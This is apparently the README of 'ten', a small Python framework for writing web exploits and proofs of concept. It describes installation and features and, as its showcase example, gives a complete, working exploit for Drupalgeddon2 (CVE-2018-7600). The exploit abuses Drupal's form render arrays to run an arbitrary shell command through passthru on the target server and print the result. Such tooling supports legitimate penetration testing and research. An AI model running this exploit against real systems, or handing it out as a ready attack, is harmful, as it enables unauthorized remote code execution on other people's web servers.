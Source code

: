 # ten

My (small) web exploit framework. I got tired of writing standard code over and over again,
so I made this. Makes code more concise, clearer, faster to write. Might be useful to you.

It helps with HTTP interactions, handling user input, providing clear output, handling files, and running shell commands.

Useful to build POCs, and convert them into full, documented exploits in a blink.

# Documentation

Documentation is available here: [https://cfreal.github.io/ten/](https://cfreal.github.io/ten/).

It includes tutorials, quickstart guides, and the Python documentation.

# Installation

Ten is available on [PyPi](https://pypi.org/project/ten/).

```bash
$ pip install ten
```

# Features

* Input/output
    * Arguments to the main function are automatically mapped to `argparse`
        * They can hold a default value, get documented, etc.
    * Output is clear and readable
* HTTP
    * Improves the standard `requests` API
    * Parse HTTP responses easily (regex, CSS selectors, forms)
    * Turn BURP on and off in a blink
    * Concurrency
    * Lots more.
* Data conversion
    * Transform data: base64, hashing, query string, CSV, JSON, ...
    * Available as a tool: `tf`
* ...

# Example

Functional, fully documented Drupalgeddon2 exploit:

```python
#!/usr/bin/env python3

from ten import *


@entry
@arg("url", "URL of the Drupal website to exploit")
@arg("command", "Command to run on the server. Defaults to `id`")
def main(url, command="id"):
    """Exploit for Drupalgeddon2 (CVE-2018-7600)."""

    session = ScopedSession(url)
    response = session.post(
        url,
        params={
            "q": "user/password",
            "name[#post_render][]": "passthru",
            "name[#markup]": command,
            "name[#type]": "markup",
        },
        data={"form_id": "user_pass", "_triggering_element_name": "name"},
    )
    try:
        form = response.form(id="user_pass")
    except FormNotFoundError:
        failure("Unable to find form in response")
    
    build_id = form["form_build_id"]
    response = session.post(
        url,
        params={
            "q": f"file/ajax/name/#value/{build_id}"
        },
        data={"form_build_id": build_id},
    )
    result = response.re.search(r"^(.*)\[{", flags=re.S)
    
    assume(result, "Unable to find command result in response")

    msg_success("Exploit done")
    msg_info("Command result:")

    msg_print(result.group(1))


main()
```
